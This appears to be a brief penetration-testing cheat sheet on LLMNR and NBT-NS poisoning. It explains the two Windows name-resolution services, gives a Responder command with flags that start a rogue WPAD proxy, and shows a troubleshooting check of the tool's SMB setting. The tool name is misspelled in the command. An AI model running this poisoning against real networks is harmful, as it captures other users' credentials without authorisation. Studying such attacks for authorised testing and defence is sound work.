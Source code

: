 # LLMNR Poisoning Overview

Link-Local Multicast Name Resolution(LLMNR) and NetBIOS Name Service (NBT-NS) are Windows domain services
Alternatives for host identification
LLMNR allow same network hosts to use name resolution for other hosts.
NBT-NS utilised to identify systems on a network by NetBIOS name.




## Responder
```bash
sudo reponder -I $IP -rdw -v 

-r	# r enables netbios wredir suffix queries
-d	# d enables netbios domain suffix queries
-w	# w starts the wpad rogue proxy server
```

## Troubleshooting
cat /etc/responder/Responder.conf | grep SMB
SMB = On
